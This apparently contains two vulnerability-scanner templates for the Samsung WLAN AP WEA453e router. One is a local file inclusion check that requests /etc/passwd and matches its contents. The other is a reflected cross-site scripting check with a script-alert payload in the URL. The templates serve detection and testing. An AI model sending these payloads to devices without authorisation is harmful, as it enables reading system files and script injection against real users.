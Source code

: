 # Samsung WLAN AP WEA453e - Local File Inclusion

## Description

- Samsung WLAN AP WEA453e is susceptible to local file inclusion vulnerabilities.
- severity - high
- tags - xss,samsung,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/(download)/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. bin:.\*:1:1
- part - body

**Type - status**

- status
  1. 200

---

# Samsung WLAN AP WEA453e - Cross-Site Scripting

## Description

- Samsung WLAN AP WEA453e router contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,samsung

## Requests

- Method - GET

### URL

- {{BaseURL}}/%3Cscript%3Ealert(document.domain)%3C/script%3E
